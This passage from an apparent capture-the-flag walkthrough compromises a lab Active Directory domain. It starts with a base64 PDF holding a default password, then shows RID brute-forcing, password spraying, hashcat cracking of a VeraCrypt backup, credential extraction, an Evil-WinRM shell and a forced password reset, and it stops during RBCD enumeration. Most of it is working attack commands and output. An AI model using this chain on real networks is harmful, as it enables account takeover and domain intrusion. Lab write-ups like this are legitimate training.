pHbnLFaPIIqc22mRygRPhWjC5MlKTp4+fbpJIY3CH15KdgmSkNxpukIFiiiIUqXNIRTZHaLCjUKh
TJpu8fA4pU6HlXeJvI2rdNl4D4mmMHckl+/mXYrySEUhkbtHpf4m7veN2Ryi5HGUVkok3xjiyJxC
LrcwkhuUU5hbmMiV5BYNyx9bxJXkFBTk5BXlDi7k8gu4J/Lznswtys3PK+Tyh3A5eeO5Ebl5TyZy
vEOy8x6On+EmORI8GE2ng7eZuEKe/2NfSc7xrOjmrY4yh5VzWlzllZZyPpFz854Kh4gDUcB2Oioc
kkUiz+VCFe9xYdCqhUoPVynyGFPpN6G24yBaPQ63JJpEh9MkeMqT84eMhCdAADdUgwccUA52kICD
FOhHPhwUgR144CCHzFeAAByMBg8IMBV4sBLtHKgECewggAdE4CCOWJHADSJkQTIkQzk4iEYllIIJ
rCBABRkVQIBycAIPZSCACyQQIRksHXvF37dvHvDgARtwMETVLgAeyqESnGTNn+tyD2hzYAYT9Cef
/25lMdEQwUHmOWLDDGYY8DtrxT/YJw+GQNKf+O8gKy3AgQQesIANeKggWtOAAwHKgIOhnfLHQS64
wAomGEV2FkCCanCrM3glxsAF5Z00C0ECHqqIziiwEMx4EMn6zr5MBwvxxkZmMUtcwJMoS6EauD+1
w6lrLUTGHmDfqoiWg6xJBA48hAEessre4adIVolE4ok/ZQ94wRFWWQhGSsYqgCcZc4AVLOAEJ/FQ
YZxb3bVUzdh0lZXt7Mb6cSBBBcSD6QHO44yXqbhzZNRNqqBKzQSONQlEsJIoeOIbljByFigFBzjJ
boo3doKkhdSPEplIPLN25Mqmxob9dJORJBgMlWRPN7GLdyiBoTDydy0qOZM6WcN4OIm/YifbLuKt
jYwJHfnFWk51JyViJ+HatA5syki1Kzm0EWtJf5Dlsk6VIJFc4pzYVLQVXglghUqCnVJvbmJd+k3m
LCS/grrOTepGUn2pABFMHZ1H6TvTyT/TfZ2mc//BGUpWq0WA5D9YXfFARd2zgFGrBBvpBEWEueJ9
faOQ5FQiFeQh2XCo2cRY84TdCn8qCUoKcu3YFEIuQTef7Oq6z/LI+yzgGvq9rtSf8Pi/8cymctFD
EKwkbGrnd3sVR0IOFJI+UgiRwMEg8oyfEgknc6EIhkE+jIUi8pwDBVAAOZAHRZALg8nafCgADp6A
fMiDJ8mKXCIrc0NI9eXBeOBgBOQSHWybVytWyRMPM0gVtvNIYaRSmzjD2HMTiZUnEf73eb3H8/a1
IlljJb0Ia3KEgy7SxS2EUYmEmTxhpIN4piDSubKdxEsHYbjUab5c7SgecHVUWjUIpO4xRxSflDqV
/g+oPlgPSn9ygJvUo4n45gQTibEckknmRyrvVso7cSys/73/Dn8TtS3cwyyH/wUfjiv4CmVuZHN0
cmVhbQplbmRvYmoKCjE3IDAgb2JqCjU0MTMKZW5kb2JqCgoxOCAwIG9iago8PC9UeXBlL0ZvbnRE
ZXNjcmlwdG9yL0ZvbnROYW1lL0JBQUFBQStBcmltb05GLVJlZ3VsYXIKL0ZsYWdzIDQKL0ZvbnRC
Qm94Wy01NDMgLTM4OSAyNzk2IDEwNDNdL0l0YWxpY0FuZ2xlIDAKL0FzY2VudCA5MjEKL0Rlc2Nl
bnQgLTIyOAovQ2FwSGVpZ2h0IDEwNDIKL1N0ZW1WIDgwCi9Gb250RmlsZTIgMTYgMCBSCj4+CmVu
ZG9iagoKMTkgMCBvYmoKPDwvTGVuZ3RoIDQ0MC9GaWx0ZXIvRmxhdGVEZWNvZGU+PgpzdHJlYW0K
eJxdk8+OmzAQh+9+Ch93DytsY3BWQkhZspE49I9K9wEITFKkjUEOOeTtq5kfbaUeQJ/NzPB5NM6a
9tDGac2+p3noaNXnKY6JbvM9DaRPdJmisk6P07BuK3kP135RWdMeusdtpWsbz3NVqewHXabbmh76
aT/OJ3pW2bc0UpriRT99NN2zyrr7snzSleKqjaprPdJZZc2XfvnaXymTrJd2pLhO6+Plo+n+Bfx8
LKSdrC1Uhnmk29IPlPp4IVUZU+vqeKwVxfG/b36HlNN5+NUnVRlb68qYItSqMk64LJhzcMPswTlz
AT4yl+ADcxB2hnknHDzzK+rL/h7xO+Y3sGVuwO/MB9SR/XdhL3WOqOlqVVkjnLObhb/nXAt/z7kW
/p7dLPw9n8vCP5d4+Af2sfAvX5nhX/J/LfxDyQz/IDHwD1Jz8xe3zV/qb/6yv/lznx38A/fTwT/f
M8O/4JoO/oXEwL/gOm7zZzcH/5x76+DvheGfSx34l/Jf+Hs+i4O/4x46+AfJhX8pMZs/n9dt/tzb
HP6FlwHbJolHje/CnxHWwz0liqtcGJlbntgp0t87tcwLZ8nzGwLy24gKZW5kc3RyZWFtCmVuZG9i
agoKMjAgMCBvYmoKPDwvVHlwZS9Gb250L1N1YnR5cGUvVHJ1ZVR5cGUvQmFzZUZvbnQvQkFBQUFB
K0FyaW1vTkYtUmVndWxhcgovRmlyc3RDaGFyIDAKL0xhc3RDaGFyIDQ4Ci9XaWR0aHNbMCA5NDMg
NTU2IDIyMiA1MDAgNTU2IDgzMyAyNzcgMjc3IDY2NiA1NTYgNTU2IDU1NiAyNzcgNzIyIDMzMwo1
ODMgNzIyIDY2NiA4MzMgNjY2IDU4MyA1MDAgMjIyIDU1NiA1MDAgNTAwIDU1NiA1NTYgMjc3IDY2
NiA3MjIKNTAwIDI3NyA3MjIgNjY2IDcyMiA1NTYgNTU2IDEwMTUgNTU2IDU1NiA2MTAgMjc3IDU1
NiAyNzcgMjc3IDU1Ngo2MTAgXQovRm9udERlc2NyaXB0b3IgMTggMCBSCi9Ub1VuaWNvZGUgMTkg
MCBSCj4+CmVuZG9iagoKMjEgMCBvYmoKPDwvRjEgMjAgMCBSCj4+CmVuZG9iagoKMjIgMCBvYmoK
PDwKL0ZvbnQgMjEgMCBSCi9Qcm9jU2V0Wy9QREYvVGV4dF0KPj4KZW5kb2JqCgoxIDAgb2JqCjw8
L1R5cGUvUGFnZS9QYXJlbnQgMTUgMCBSL1Jlc291cmNlcyAyMiAwIFIvTWVkaWFCb3hbMCAwIDYx
MiA3OTJdL1N0cnVjdFBhcmVudHMgMAovQ29udGVudHMgMiAwIFI+PgplbmRvYmoKCjUgMCBvYmoK
PDwvVHlwZS9TdHJ1Y3RFbGVtCi9TL1N0YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9P
L0xheW91dC9QbGFjZW1lbnQvQmxvY2sKPj4KL0tbMCBdCj4+CmVuZG9iagoKNiAwIG9iago8PC9U
eXBlL1N0cnVjdEVsZW0KL1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5
b3V0L1BsYWNlbWVudC9CbG9jawo+PgovS1sxIF0KPj4KZW5kb2JqCgo3IDAgb2JqCjw8L1R5cGUv
U3RydWN0RWxlbQovUy9TdGFuZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQv
UGxhY2VtZW50L0Jsb2NrCj4+Ci9LWzIgXQo+PgplbmRvYmoKCjggMCBvYmoKPDwvVHlwZS9TdHJ1
Y3RFbGVtCi9TL1N0YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9PL0xheW91dC9QbGFj
ZW1lbnQvQmxvY2sKPj4KL0tbMyBdCj4+CmVuZG9iagoKOSAwIG9iago8PC9UeXBlL1N0cnVjdEVs
ZW0KL1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVu
dC9CbG9jawo+PgovS1s0IF0KPj4KZW5kb2JqCgoxMCAwIG9iago8PC9UeXBlL1N0cnVjdEVsZW0K
L1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVudC9C
bG9jawo+PgovS1s1IF0KPj4KZW5kb2JqCgoxMSAwIG9iago8PC9UeXBlL1N0cnVjdEVsZW0KL1Mv
U3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVudC9CbG9j
awo+PgovS1s2IDcgXQo+PgplbmRvYmoKCjEyIDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9T
dGFuZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQvUGxhY2VtZW50L0Jsb2Nr
Cj4+Ci9LWzggOSBdCj4+CmVuZG9iagoKMTMgMCBvYmoKPDwvVHlwZS9TdHJ1Y3RFbGVtCi9TL1N0
YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9PL0xheW91dC9QbGFjZW1lbnQvQmxvY2sK
Pj4KL0tbMTAgXQo+PgplbmRvYmoKCjE0IDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9TdGFu
ZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQvUGxhY2VtZW50L0Jsb2NrCj4+
Ci9LWzExIF0KPj4KZW5kb2JqCgo0IDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9Eb2N1bWVu
dAovUCAyMyAwIFIKL1BnIDEgMCBSCi9LWzUgMCBSICA2IDAgUiAgNyAwIFIgIDggMCBSICA5IDAg
UiAgMTAgMCBSICAxMSAwIFIgIDEyIDAgUiAgMTMgMCBSICAxNCAwIFIgIF0KPj4KZW5kb2JqCgoy
MyAwIG9iago8PC9UeXBlL1N0cnVjdFRyZWVSb290Ci9QYXJlbnRUcmVlIDI0IDAgUgovUm9sZU1h
cDw8L1N0YW5kYXJkL1AKPj4KL0tbNCAwIFIgIF0KPj4KZW5kb2JqCgoyNCAwIG9iago8PC9OdW1z
WwowIFsgNSAwIFIgNiAwIFIgNyAwIFIgOCAwIFIgOSAwIFIgMTAgMCBSIDExIDAgUiAxMSAwIFIg
MTIgMCBSIDEyIDAgUgoxMyAwIFIgMTQgMCBSIF0KXT4+CmVuZG9iagoKMTUgMCBvYmoKPDwvVHlw
ZS9QYWdlcwovUmVzb3VyY2VzIDIyIDAgUgovS2lkc1sgMSAwIFIgXQovQ291bnQgMT4+CmVuZG9i
agoKMjUgMCBvYmoKPDwvVHlwZS9DYXRhbG9nL1BhZ2VzIDE1IDAgUgovUGFnZU1vZGUvVXNlT3V0
bGluZXMKL09wZW5BY3Rpb25bMSAwIFIgL1hZWiBudWxsIG51bGwgMF0KL1N0cnVjdFRyZWVSb290
IDIzIDAgUgovTGFuZyhlbi1VUykKL01hcmtJbmZvPDwvTWFya2VkIHRydWU+Pgo+PgplbmRvYmoK
CjI2IDAgb2JqCjw8L0NyZWF0b3I8RkVGRjAwNTcwMDcyMDA2OTAwNzQwMDY1MDA3Mj4KL1Byb2R1
Y2VyPEZFRkYwMDRDMDA2OTAwNjIwMDcyMDA2NTAwNEYwMDY2MDA2NjAwNjkwMDYzMDA2NTAwMjAw
MDMyMDAzNDAwMkUwMDMyPgovQ3JlYXRpb25EYXRlKEQ6MjAyNDA3MDYxMTUzMDYrMDInMDAnKT4+
CmVuZG9iagoKeHJlZgowIDI3CjAwMDAwMDAwMDAgNjU1MzUgZiAKMDAwMDAwNzQwMCAwMDAwMCBu
IAowMDAwMDAwMDE5IDAwMDAwIG4gCjAwMDAwMDA3MDcgMDAwMDAgbiAKMDAwMDAwODYyNyAwMDAw
MCBuIAowMDAwMDA3NTE2IDAwMDAwIG4gCjAwMDAwMDc2MjYgMDAwMDAgbiAKMDAwMDAwNzczNiAw
MDAwMCBuIAowMDAwMDA3ODQ2IDAwMDAwIG4gCjAwMDAwMDc5NTYgMDAwMDAgbiAKMDAwMDAwODA2
NiAwMDAwMCBuIAowMDAwMDA4MTc3IDAwMDAwIG4gCjAwMDAwMDgyOTAgMDAwMDAgbiAKMDAwMDAw
ODQwMyAwMDAwMCBuIAowMDAwMDA4NTE1IDAwMDAwIG4gCjAwMDAwMDg5OTEgMDAwMDAgbiAKMDAw
MDAwMDcyNyAwMDAwMCBuIAowMDAwMDA2MjI2IDAwMDAwIG4gCjAwMDAwMDYyNDggMDAwMDAgbiAK
MDAwMDAwNjQ0NyAwMDAwMCBuIAowMDAwMDA2OTU3IDAwMDAwIG4gCjAwMDAwMDczMTEgMDAwMDAg
biAKMDAwMDAwNzM0NCAwMDAwMCBuIAowMDAwMDA4Nzc3IDAwMDAwIG4gCjAwMDAwMDg4NzYgMDAw
MDAgbiAKMDAwMDAwOTA2NiAwMDAwMCBuIAowMDAwMDA5MjM1IDAwMDAwIG4gCnRyYWlsZXIKPDwv
U2l6ZSAyNy9Sb290IDI1IDAgUgovSW5mbyAyNiAwIFIKL0lEIFsgPEM0QUQ2NUU5NEZCOTk3OTYx
MTU1Q0FGRkQ2QUMyQjUzPgo8QzRBRDY1RTk0RkI5OTc5NjExNTVDQUZGRDZBQzJCNTM+IF0KL0Rv
Y0NoZWNrc3VtIC8wQTM4N0RBQjYxNTBCMkRCMTg0MzJGMDJENzY2MDQxMwo+PgpzdGFydHhyZWYK
OTQxNAolJUVPRgo=

--===============6932979162079994354==--
```

we can convert the base64 to pdf using an online tool
>https://www.apivoid.com/tools/base64-to-pdf/



it reveals an password `Ph4nt0m@5t4rt!` 
now we need to enumerate users using `rid brute force` and save the users to an file 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ nxc smb 10.129.234.63  -u "guest" -p "" --rid-brute 10000
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\guest: 
SMB         10.129.234.63   445    DC               498: PHANTOM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               500: PHANTOM\Administrator (SidTypeUser)
SMB         10.129.234.63   445    DC               501: PHANTOM\Guest (SidTypeUser)
SMB         10.129.234.63   445    DC               502: PHANTOM\krbtgt (SidTypeUser)
SMB         10.129.234.63   445    DC               512: PHANTOM\Domain Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               513: PHANTOM\Domain Users (SidTypeGroup)
SMB         10.129.234.63   445    DC               514: PHANTOM\Domain Guests (SidTypeGroup)
SMB         10.129.234.63   445    DC               515: PHANTOM\Domain Computers (SidTypeGroup)
SMB         10.129.234.63   445    DC               516: PHANTOM\Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               517: PHANTOM\Cert Publishers (SidTypeAlias)
SMB         10.129.234.63   445    DC               518: PHANTOM\Schema Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               519: PHANTOM\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               520: PHANTOM\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.63   445    DC               521: PHANTOM\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               522: PHANTOM\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               525: PHANTOM\Protected Users (SidTypeGroup)
SMB         10.129.234.63   445    DC               526: PHANTOM\Key Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               527: PHANTOM\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               553: PHANTOM\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.63   445    DC               571: PHANTOM\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.63   445    DC               572: PHANTOM\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.63   445    DC               1000: PHANTOM\DC$ (SidTypeUser)
SMB         10.129.234.63   445    DC               1101: PHANTOM\DnsAdmins (SidTypeAlias)
SMB         10.129.234.63   445    DC               1102: PHANTOM\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.63   445    DC               1103: PHANTOM\svc_sspr (SidTypeUser)
SMB         10.129.234.63   445    DC               1104: PHANTOM\TechSupports (SidTypeGroup)
SMB         10.129.234.63   445    DC               1105: PHANTOM\Server Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               1106: PHANTOM\ICT Security (SidTypeGroup)
SMB         10.129.234.63   445    DC               1107: PHANTOM\DevOps (SidTypeGroup)
SMB         10.129.234.63   445    DC               1108: PHANTOM\Accountants (SidTypeGroup)
SMB         10.129.234.63   445    DC               1109: PHANTOM\FinManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1110: PHANTOM\EmployeeRelations (SidTypeGroup)
SMB         10.129.234.63   445    DC               1111: PHANTOM\HRManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1112: PHANTOM\rnichols (SidTypeUser)
SMB         10.129.234.63   445    DC               1113: PHANTOM\pharrison (SidTypeUser)
SMB         10.129.234.63   445    DC               1114: PHANTOM\wsilva (SidTypeUser)
SMB         10.129.234.63   445    DC               1115: PHANTOM\elynch (SidTypeUser)
SMB         10.129.234.63   445    DC               1116: PHANTOM\nhamilton (SidTypeUser)
SMB         10.129.234.63   445    DC               1117: PHANTOM\lstanley (SidTypeUser)
SMB         10.129.234.63   445    DC               1118: PHANTOM\bbarnes (SidTypeUser)
SMB         10.129.234.63   445    DC               1119: PHANTOM\cjones (SidTypeUser)
SMB         10.129.234.63   445    DC               1120: PHANTOM\agarcia (SidTypeUser)
SMB         10.129.234.63   445    DC               1121: PHANTOM\ppayne (SidTypeUser)
SMB         10.129.234.63   445    DC               1122: PHANTOM\ibryant (SidTypeUser)
SMB         10.129.234.63   445    DC               1123: PHANTOM\ssteward (SidTypeUser)
SMB         10.129.234.63   445    DC               1124: PHANTOM\wstewart (SidTypeUser)
SMB         10.129.234.63   445    DC               1125: PHANTOM\vhoward (SidTypeUser)
SMB         10.129.234.63   445    DC               1126: PHANTOM\crose (SidTypeUser)
SMB         10.129.234.63   445    DC               1127: PHANTOM\twright (SidTypeUser)
SMB         10.129.234.63   445    DC               1128: PHANTOM\fhanson (SidTypeUser)
SMB         10.129.234.63   445    DC               1129: PHANTOM\cferguson (SidTypeUser)
SMB         10.129.234.63   445    DC               1130: PHANTOM\alucas (SidTypeUser)
SMB         10.129.234.63   445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.129.234.63   445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.129.234.63   445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.129.234.63   445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.129.234.63   445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.129.234.63   445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
SMB         10.129.234.63   445    DC               1137: PHANTOM\SSPR Service (SidTypeGroup)
```

now we can spray the password with credential we found on the `pdf`


Amazing we got an hit with the user now spray the user and password
`ibryant : Ph4nt0m@5t4rt! `


he also got anthor non-default share `Departments Share` and we can start enumerating it 
```bash

┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ smbclient -U 'phantom.vl\ibryant%Ph4nt0m@5t4rt!' "\\\\10.129.234.63\\Departments Share"
Try "help" to get a list of possible commands.
smb: \> cd IR
cd \IR\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \> ls
  .                                   D        0  Sat Jul  6 17:25:31 2024
  ..                                DHS        0  Thu Aug 14 12:55:49 2025
  Finance                             D        0  Sat Jul  6 17:25:11 2024
  HR                                  D        0  Sat Jul  6 17:21:31 2024
  IT                                  D        0  Thu Jul 11 15:59:02 2024
c
                6127103 blocks of size 4096. 2382132 blocks available
smb: \> cd IT\
smb: \IT\> LS
  .                                   D        0  Thu Jul 11 15:59:02 2024
  ..                                  D        0  Sat Jul  6 17:25:31 2024
  Backup                              D        0  Sat Jul  6 19:04:34 2024
  mRemoteNG-Installer-1.76.20.24615.msi      A 43593728  Sat Jul  6 17:14:26 2024
  TeamViewerQS_x64.exe                A 32498992  Sat Jul  6 17:26:59 2024
  TeamViewer_Setup_x64.exe            A 80383920  Sat Jul  6 17:27:15 2024
  veracrypt-1.26.7-Ubuntu-22.04-amd64.deb      A  9201076  Sun Oct  1 21:30:37 2023
  Wireshark-4.2.5-x64.exe             A 86489296  Sat Jul  6 17:14:08 2024

                6127103 blocks of size 4096. 2382132 blocks available
smb: \IT\> cd Backup\
smb: \IT\Backup\> ls
  .                                   D        0  Sat Jul  6 19:04:34 2024
  ..                                  D        0  Thu Jul 11 15:59:02 2024
  IT_BACKUP_201123.hc                 A 12582912  Sat Jul  6 19:04:14 2024

                6127103 blocks of size 4096. 2382132 blocks available
smb: \IT\Backup\> 
```

Lets download the file which is protected by hash which we can try to crack with hashcat with custom wordlist mentioned in the box 

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ hashcat -m 13721 IT_BACKUP_201123.hc phantom_wordlist.txt 
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2845/5691 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 128
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
* Uses-64-Bit

ATTENTION! Potfile storage is disabled for this hash mode.
Passwords cracked during this session will NOT be stored to the potfile.
Consider using -o to save cracked passwords.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 512 MB (2493 MB free)

Dictionary cache built:
* Filename..: phantom_wordlist.txt
* Passwords.: 495
* Bytes.....: 6411
* Keyspace..: 495
* Runtime...: 0 secs

IT_BACKUP_201123.hc:Phantom2023!                          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13721 (VeraCrypt SHA512 + XTS 512 bit (legacy))
Hash.Target......: IT_BACKUP_201123.hc
Time.Started.....: Fri Nov 13 00:22:26 2026 (7 secs)
Time.Estimated...: Fri Nov 13 00:22:33 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-128 bytes)
Guess.Base.......: File (phantom_wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:       64 H/s (7.19ms) @ Accel:444 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 444/495 (89.70%)
Rejected.........: 0/444 (0.00%)
Restore.Point....: 0/495 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:499000-499999
Candidate.Engine.: Device Generator
Candidates.#01...: PHANTOM -> phantom2023$
Hardware.Mon.#01.: Temp: 68c Util: 90%

Started: Fri Nov 13 00:21:59 2026
Stopped: Fri Nov 13 00:22:34 2026
[ble: elapsed 35.586s (CPU 199.1%)] hashcat -m 13721 IT_BACKUP_201123.hc phantom_wordlist.txt 
```


After that we can accesss file
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot]
└─$ sudo cryptsetup --type tcrypt --veracrypt open IT_BACKUP_201123.hc backup
```

then extract the `tar` file to see for any credentials
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot]
└─$ tar xf vyos_backup.tar
```

then we can extract the cleartext password from `config.boot` file
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot]
└─$ ls
'$RECYCLE.BIN'                bin      media   splunk_logs1203                    ticketing_system_backup_0908.sql   var
'System Volume Information'   config   mnt     splunk_logs_1003                   ticketing_system_backup_0910.sql   vyos_backup.tar
 azure_vms_0805.json          etc      opt     splunk_logs_1102                   ticketing_system_backup_1011.sql
 azure_vms_1023.json          home     root    srv                                ticketing_system_backup_1101.sql
 azure_vms_1104.json          lib      run     ticketing_system_backup.zip        ticketing_system_backup_1105.sql
 azure_vms_1123.json          lib64    sbin    ticketing_system_backup_0806.sql   tmp

┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot]
└─$ cd config/

┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ ls
archive  auth  config.boot  scripts  support  user-data  vyos-activate.log

┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ cat config.boot | grep password
            password-protected
            password-protected
                encrypted-password "$6$rounds=656000$6diBtlKOC2mmpMcP$G.DyFWB.fDoVSEfQN197v8lkGZbj6AI91P39eiNYoF8ymQoK11F.mLuQ6ulUFAxPkYMxVOq.WnkBwzmEWu81H."
                encrypted-password "$6$rounds=656000$Etl2frgw6IuOffzT$LPX5DjrOKSiVnTjPSLMnVevH4Y4eMf7SEWL6V8eH8GNUSDbFZX7Hj/jFvEGspjAtRY1lLohfGfOiraR1UGiDh."
                plaintext-password ""
                    password "gB6XTcqVP5MlP7Rc"
```

Then we can spray the password with grabbed username from `rid-brute`  force

As usual we can spray the founded password with nxc 


we got winrm access as svc_sspr user
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ evil-winrm -i 10.129.234.63  -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_sspr\Documents> 
```
we got the first flag ! moving forward with any privelege escalation
```bash
*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
phantom\svc_sspr S-1-5-21-4029599044-1972224926-2225194048-1103


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
PHANTOM\SSPR Service                        Group            S-1-5-21-4029599044-1972224926-2225194048-1137 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> 
```

Nothing specfic lets check on bloodhound to see any ACL 


Bingo we drawn the entire path to `DC` Lets start with changing the password of `Nichols`

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ bloodyAD --host 10.129.234.63  -d phantom.vl  -u 'svc_sspr' -p 'gB6XTcqVP5MlP7Rc' set password 'RNICHOLS' 'Password@123'
[+] Password changed successfully!
```

then to abuse RBCD or Resoruce Based Constrained delegation we need an account with spn which we control or have the credentials , lets enumerate that first with nxc 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ nxc ldap 10.129.234.63  -u "svc_sspr" -p "gB6XTcqVP5MlP7Rc" --query "(sAMAccountName=*)" "servicePrincipalName"
LDAP        10.129.234.63   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl) (signing:None) (channel binding:No TLS cert)                                                                                                                                                            
LDAP        10.129.234.63   389    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Access Control Assistance Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Account Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Accountants,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Administrator,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Administrators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Alicia Garcia,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Allowed RODC Password Replication Group,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Anthony Lucas,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Backup Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Beverley Barnes,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
